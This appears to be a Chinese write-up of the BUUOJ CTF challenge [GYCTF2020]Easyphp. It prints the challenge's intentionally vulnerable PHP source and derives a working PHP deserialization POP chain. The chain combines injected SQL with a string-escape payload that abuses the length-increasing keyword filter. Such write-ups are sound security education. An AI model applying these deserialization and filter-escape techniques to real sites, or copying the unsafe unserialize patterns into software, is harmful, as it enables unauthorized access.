



题目戳这👉<a href="https://buuoj.cn/challenges#[GYCTF2020]Easyphp">[GYCTF2020]Easyphp</a>

很巧妙的一道题

`www.zip`源码泄露，主要的逻辑在`lib.php`中

```php
<?php
error_reporting(0);
session_start();
function safe($parm){
    $array= array('union','regexp','load','into','flag','file','insert',"'",'\\',"*","alter");
    return str_replace($array,'hacker',$parm);
}
class User
{
    public $id;
    public $age=null;
    public $nickname=null;
    public function login() {
        if(isset($_POST['username'])&&isset($_POST['password'])){
        $mysqli=new dbCtrl();
        $this->id=$mysqli->login('select id,password from user where username=?');
        if($this->id){
        $_SESSION['id']=$this->id;
        $_SESSION['login']=1;
        echo "你的ID是".$_SESSION['id'];
        echo "你好！".$_SESSION['token'];
        echo "<script>window.location.href='./update.php'</script>";
        return $this->id;
        }
    }
}
    public function update(){
        $Info=unserialize($this->getNewinfo());
        $age=$Info->age;
        $nickname=$Info->nickname;
        $updateAction=new UpdateHelper($_SESSION['id'],$Info,"update user SET age=$age,nickname=$nickname where id=".$_SESSION['id']);
        //这个功能还没有写完 先占坑
    }
    public function getNewInfo(){
        $age=$_POST['age'];
        $nickname=$_POST['nickname'];
        return safe(serialize(new Info($age,$nickname)));
    }
    public function __destruct(){
        return file_get_contents($this->nickname);//危
    }
    public function __toString()
    {
        $this->nickname->update($this->age);
        return "0-0";
    }
}
class Info{
    public $age;
    public $nickname;
    public $CtrlCase;
    public function __construct($age,$nickname){
        $this->age=$age;
        $this->nickname=$nickname;
    }
    public function __call($name,$argument){
        echo $this->CtrlCase->login($argument[0]);
    }
}
Class UpdateHelper{
    public $id;
    public $newinfo;
    public $sql;
    public function __construct($newInfo,$sql){
        $newInfo=unserialize($newInfo);
        $upDate=new dbCtrl();
    }
    public function __destruct()
    {
        echo $this->sql;
    }
}
class dbCtrl
{
    public $hostname="127.0.0.1";
    public $dbuser="root";
    public $dbpass="root";
    public $database="test";
    public $name;
    public $password;
    public $mysqli;
    public $token;
    public function __construct()
    {
        $this->name=$_POST['username'];
        $this->password=$_POST['password'];
        $this->token=$_SESSION['token'];
    }
    public function login($sql)
    {
        $this->mysqli=new mysqli($this->hostname, $this->dbuser, $this->dbpass, $this->database);
        if ($this->mysqli->connect_error) {
            die("连接失败，错误:" . $this->mysqli->connect_error);
        }
        $result=$this->mysqli->prepare($sql);
        $result->bind_param('s', $this->name);
        $result->execute();
        $result->bind_result($idResult, $passwordResult);
        $result->fetch();
        $result->close();
        if ($this->token=='admin') {
            return $idResult;
        }
        if (!$idResult) {
            echo('用户不存在!');
            return false;
        }
        if (md5($this->password)!==$passwordResult) {
            echo('密码错误！');
            return false;
        }
        $_SESSION['token']=$this->name;
        return $idResult;
    }
}
```

```php
// update.php
if ($_SESSION['login']!=1){
	echo "你还没有登陆呢！";
}
$users=new User();
$users->update();
if($_SESSION['login']===1){
	require_once("flag.php");
	echo $flag;
}
```

# 起

采用预编译，SQL注入是不行了

我们能控制的点只有四处：

`User#login`中的`$_POST['username']`、`$_POST['password']`

`User#getNewInfo`中的`$_POST['age']`、`$_POST['nickname']`

`User#__destruct`中有敏感函数`file_get_contents`，但是它是return出来的，无法回显

因此只能想方设法让`$_SESSION['login']===1`，也就是成功登录。

# 承

`Info#__call`中有调用`login`，可以以此为入口

哪里用到了`Info`类？  `User#update -> User#getNewInfo`

`$Info=unserialize(safe(serialize(new Info($age,$nickname))));`

先构造Info对象，对其进行安全的序列化，再进行反序列化，其中构造器的参数我们可控

safe函数让我们能够实现字符串逃逸

`update`先进行了反序列化得到对象`$Info`，取出`$Info`的两个属性age、nickname

接着在`new UpdateHelper`的第三个参数中进行了变量和字符串拼接，考虑`User#__toString`，执行了`$this->nickname->update($this->age)`，如果再调用`update`方法就没意思了，考虑`Info#__call`，执行了`echo $this->CtrlCase->login($argument[0])`，让`$this->CtrlCase`为`dbCtrl`对象，且`token=='admin'`

# 转

好吧，上面的思路是会堵死的。。。

首先其实最后调用`dbCtrl#login($sql)`的sql语句我们是可控的，通过`$this->age`传入，上面的`__toString`使得`$this->age`只能定死为`Info`对象，不能传sql了。
既然查询的东西都可控了，就能绕过`md5($this->password)!==$passwordResult`的检测

构造SQL语句`'select 1,md5(1) from user where username=?'`

执行到`$_SESSION['token']=$this->name;`，这样的话，下次登录只要输入用户名为admin，密码随便输，login的逻辑只要检测到`$_SESSION['token']=='admin'`就登录成功了。

`UpdateHelper#__destruct`调用了echo，可以把这里当成`__toString`接口

看看POP链会比较清楚

```php
<?php
class User
{
    public $age = null;
    public $nickname = null;
    public function __construct()
    {
        $this->age = 'select 1,md5(1) from user where username=?';
        $this->nickname = new Info();
    }
}
class Info
{
    public $CtrlCase;
    public function __construct()
    {
        $this->CtrlCase = new dbCtrl();
    }
}
class UpdateHelper
{
    public $sql;
    public function __construct()
    {
        $this->sql = new User();
    }
}
class dbCtrl
{
    public $name = "admin";
    public $password = "1";
}
$o = new UpdateHelper;
echo serialize($o);
```

接着思考字符串逃逸问题



显然是字符串增加的情况

假设我们通过nickname来传入序列化字符串

本地测试一下
```php
<?php
class Info{
    public $age;
    public $nickname;
    public $CtrlCase;
    public function __construct($age,$nickname){
        $this->age=$age;
        $this->nickname=$nickname;
    }
}
function safe($parm){
    $array= array('union','regexp','load','into','flag','file','insert',"'",'\\',"*","alter");
    return str_replace($array,'hacker',$parm);
}
function getNewInfo(){
    $age=$_POST['age'];
    $nickname=$_POST['nickname'];
    echo safe(serialize(new Info($age,$nickname)));
}
if(isset($_POST['age'])&&isset($_POST['nickname']))
    getNewInfo();
```




若想成功反序列化，需要在黄色荧光前面加东西，让其长度刚好满足前面的前面的长度，吃掉这一部分作为nickname的值

还得额外加一个序列化属性，来补充Info的第三个成员`CtrlCase`

黄色荧光后面再加个`}`表示序列化结束

黄色荧光部分有217个字符

`";s:8:"CtrlCase";`有17个字符

`into`换`hacker`多了2个字符、`union换`hacker`多了1个字符`

假设填充了x个`into`，则 `4x + 217 + 17 + 1 = 6x`，解得x=117余1

所以需要填充117个`into`、1个`union`



拿着这个请求体去访问/update.php，此时SESSION['token']=admin

接着访问/login.php  用户输amin、密码随便，登录得到flag